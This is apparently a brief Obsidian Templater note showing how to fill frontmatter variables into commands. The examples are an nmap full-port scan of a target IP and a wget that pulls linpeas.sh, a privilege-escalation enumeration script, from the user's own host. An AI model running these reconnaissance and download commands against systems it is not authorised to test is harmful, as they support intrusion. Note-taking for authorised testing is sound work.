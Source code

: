 
Templater - Frontmatter Module

```php
<% tp.frontmatter["variable name with spaces"] %>
```

```php
nmap -sC -sV -p- <% tp.frontmatter.target_ip %>
```

```php
wget <% tp.frontmatter.my_ip %>/linpeas.sh
```

---

Works with /extra/misc/test.md.